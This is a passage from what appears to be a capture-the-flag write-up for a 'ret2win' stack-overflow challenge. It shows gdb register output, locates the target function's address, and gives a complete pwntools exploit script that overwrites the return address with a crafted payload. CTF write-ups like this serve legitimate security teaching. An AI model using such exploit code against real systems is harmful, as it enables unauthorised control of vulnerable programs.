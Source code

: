 ```shell
$r9    : 0x73              
$r10   : 0x0               
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x007fffffffdd78  →  0x007fffffffe128  →  "TERMINATOR_DBUS_NAME=net.tenshu.Terminator21a9d5db[...]"
$r14   : 0x0               
$r15   : 0x007ffff7ffd020  →  0x007ffff7ffe2e0  →  0x0000000000000000
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
[...]
```

This time, we successfully overflowed the RIP register with ***6 C's*** (`43` in hex).

Now we controlled the RIP register, let's ***change it's value to function `supersecrettoplevelfunction()`'s memory address!***

**To find it's address, we can use `p` command in `gdb`:**
```shell
gef➤  p supersecrettoplevelfunction
$1 = {<text variable, no debug info>} 0x401196 <supersecrettoplevelfunction>
```

- Function `supersecrettoplevelfunction()` memory address: `0x401196`

**Finally, we can write a Python script to exploit it locally:**
```py
#!/usr/bin/env python3
from pwn import *

def main():
    elf = ELF('./ret2win')
    # Local
    r = process(elf.path)
    # Remote
    # r = remote('ret2win.challenges.ctf.ritsec.club', 1337)

    padding = b'A' * 32

    # 0xcafebabe, 0xc0debabe RBP register in CMP instruction in function `supersecrettoplevelfunction()`
    # cmp1 = p64(0xcafebabe)
    # cmp2 = p64(0xc0debabe)
    cmp1 = b'\xbe\xba\xfe\xca'
    cmp2 = b'\xbe\xba\xde\xc0'

    supersecrettoplevelfunction = p64(elf.symbols.supersecrettoplevelfunction)

    # Stack: padding -> RBP: cmp1 + cmp2 -> RIP: supersecrettoplevelfunction()
    payload = padding + cmp1 + cmp2 + supersecrettoplevelfunction
    log.info(f'Payload: {payload}')

    # For GDB debug
    with open('payload', 'wb') as file:
        file.write(payload)

    # r.sendline(payload)
    r.sendlineafter(b'!!\n', payload)
    print(r.recvall())
    r.interactive()

if __name__ == '__main__':
    main()
```